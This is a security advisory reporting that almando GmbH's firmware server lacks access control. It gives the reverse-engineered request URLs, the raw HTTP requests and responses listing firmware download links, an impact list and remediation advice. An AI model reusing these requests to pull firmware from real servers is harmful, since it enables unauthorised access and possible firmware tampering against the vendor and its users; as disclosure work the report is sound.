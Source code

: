 # Vulnerability Report - appinventor.ai_google.almando_control- Incorrect Access Control

**Product:** `appinventor.ai_google.almando_control` 

**Vendor:** [almando GmbH](http://www.almando.com/)

**Version:** 2.3.1

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `appinventor.ai_google.almando_control` , developed by **almando GmbH**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `ONLINE_JSON_URL,ONLINE_JSON_URL_INTEGRATION, LOCAL_DECODER_URL_OVERRIDE, LOCAL_MULTIPLAY_URL_OVERRIDE` Field values in the `DownloadManager` class provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003141048797](https://s2.loli.net/2024/10/03/YrygzULm2DbwZQd.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://www.almando.com/media/firmware/almando.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.almando.com
   
   
   ```

   ```http
   GET https://www.almando.com/media/firmware/test/almando.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.almando.com
   
   
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 06:06:41 GMT
   Server: Apache/2.4.61 (Debian)
   Last-Modified: Wed, 21 Aug 2024 11:39:42 GMT
   Accept-Ranges: bytes
   Content-Length: 3150
   Cache-Control: max-age=15552000
   Expires: Tue, 01 Apr 2025 06:06:41 GMT
   Vary: Accept-Encoding
   X-Content-Type-Options: nosniff
   X-Frame-Options: SAMEORIGIN
   Content-Type: application/json
   
   {
   	"product": {
   		"0": {
                     "fw-version": 16973826,
                     "fw-download": "https://www.almando.com/media/firmware/almando-decoder-V1_3_0_2.almpd",
                     "mp-version": 16778247,
                     "mp-download": "https://www.almando.com/media/firmware/almando-multiplay_V1_0_4_7.almpd",
                     "reset-url": "https://www.almando.com/media/firmware/defaults0.txt",
                     "min-build-ios": 18,
                     "min-build-android": 13
   		},
   		"3": {
                     "fw-version": 16908811,
                     "fw-download": "https://www.almando.com/media/firmware/almando-powerlinkswitch_V1_2_2_11.almpd",
                     "reset-url": "https://www.almando.com/media/firmware/defaults3.txt",
                     "min-build-ios": 18,
                     "min-build-android": 13
   		},
     ......
    
   ```

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 06:12:17 GMT
   Server: Apache/2.4.61 (Debian)
   Last-Modified: Tue, 01 Mar 2022 13:11:16 GMT
   Accept-Ranges: bytes
   Content-Length: 2262
   Cache-Control: max-age=15552000
   Expires: Tue, 01 Apr 2025 06:12:17 GMT
   Vary: Accept-Encoding
   X-Content-Type-Options: nosniff
   X-Frame-Options: SAMEORIGIN
   Content-Type: application/json
   
   {
   	"product": {
   		"0": {
                     "fw-version": 16973824,
                     "fw-download": "https://www.almando.com/media/firmware/almando-decoder-V1_3_0_0.almpd",
                     "mp-version": 16778247,
                     "mp-download": "https://www.almando.com/media/firmware/almando-multiplay_V1_0_4_7.almpd",
                     "reset-url": "https://www.almando.com/media/firmware/defaults0.txt",
                     "min-build-ios": 18,
                     "min-build-android": 13
   		},
   		"3": {
                     "fw-version": 16908817,
                     "fw-download": "https://www.almando.com/media/firmware/almando-powerlinkswitch_V1_2_2_11.almpd",
                     "reset-url": "https://www.almando.com/media/firmware/defaults3.txt",
                     "min-build-ios": 18,
                     "min-build-android": 13
   		},
     ......
   ```

   

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003142510787](https://s2.loli.net/2024/10/03/tiP1wu6DqLaobkJ.png)

   In total, we successfully downloaded **12 firmware** by exploiting the vulnerability. 


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.